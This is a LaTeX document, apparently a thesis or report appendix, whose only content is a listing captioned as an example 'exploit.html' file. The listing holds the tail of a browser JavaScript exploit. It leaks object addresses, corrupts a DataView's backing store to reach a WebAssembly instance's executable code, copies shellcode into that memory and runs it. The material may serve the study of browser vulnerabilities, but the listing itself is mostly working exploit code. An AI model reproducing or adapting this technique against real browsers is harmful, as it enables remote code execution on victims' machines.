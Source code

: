 \documentclass[a4paper,twoside,12pt]{book}
\begin{document}
\begin{appendices}
\begin{lstlisting}[label={lst:firstLst},caption={Example of a "exploit.html" file},escapeinside=``,basicstyle=\tiny]
			return (fLow(rwarr[9]) - 1);
		}
		let corrupt_view = new DataView(corrupt_buff);
		let corrupt_buffer_ptr_low = leakObjLow(corrupt_buff);
		let idx0Addr = corrupt_buffer_ptr_low - 0x10;
		let baseAddr = (corrupt_buffer_ptr_low & 0xffff0000) 
			- ((corrupt_buffer_ptr_low & 0xffff0000) % 0x40000) 
			+ 0x40000;
		let delta = baseAddr + 0x1c - idx0Addr;
		if ((delta % 8) == 0) {
			let baseIdx = delta / 8;
			this.base = fLow(rwarr[baseIdx]);
		} else {
			let baseIdx = ((delta - (delta % 8)) / 8);
			this.base = fHi(rwarr[baseIdx]);
		}
		let wasmInsAddr = leakObjLow(wasmInstance);
		setbackingStore(wasmInsAddr, this.base);
		let code_entry = corrupt_view.getFloat64(13 * 8, true);
		setbackingStore(fLow(code_entry), fHi(code_entry));
		for (let i = 0; i < shellcode.length; i++) {
			corrupt_view.setUint8(i, shellcode[i]);
		}
		main();
	</script>
\end{lstlisting}



\end{appendices}
\end{document}
